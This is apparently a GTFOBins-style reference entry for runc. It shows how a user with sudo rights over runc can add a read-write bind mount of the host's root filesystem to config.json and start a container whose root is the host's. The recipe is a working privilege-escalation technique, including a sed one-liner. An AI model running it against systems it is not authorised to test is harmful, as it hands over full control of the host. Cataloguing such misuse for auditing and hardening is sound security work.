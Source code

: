 ```yaml
---
description: Open Container Initiative runtime.
functions:
  sudo:
    - description: |
        Inside the `"mounts"` section of the created `config.json` add the following lines:
        ```
        {
            "destination": "/",
            "type": "bind",
            "source": "/",
            "options": [
                "rbind",
                "rw",
                "rprivate"
            ]
        },
        ```
        Start the container, the root folder is the one from the host.
      code: |
        cd $(mktemp -d) && mkdir rootfs
        runc spec
        sed -i '/mounts/a{"destination":"/","type":"bind","source":"/","options":["rbind","rw","rprivate"]},' config.json

        sudo runc run shell
---
```

